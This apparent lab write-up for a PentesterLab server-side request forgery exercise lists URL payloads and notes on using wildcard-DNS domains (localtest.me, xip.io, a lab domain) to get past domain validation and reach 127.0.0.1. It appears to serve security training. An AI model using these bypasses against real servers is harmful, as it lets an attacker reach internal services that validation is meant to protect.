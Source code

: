 #### 5.1. SSRF 4 (Pentesterlab)

```
$target/?url=http://test.site.com.wafbypass.lol:1234
$target/?url=http://test.site.com.localtest.me:1234
$target/?url=http://test.site.com.127.0.0.1.xip.io:1234
```

Note:
   - main domain `hackingwithpentesterlab.link`
   - `*.hackingwithpentesterlab.link` always returns `127.0.0.1`
   - `assets.pentesterlab.com.<DOMAIN>` will bypass the domain validation
   - `http://readme.localtest.me/`
   - `127.0.0.1.xip.io` or `<ANY_IP>.xip.io`
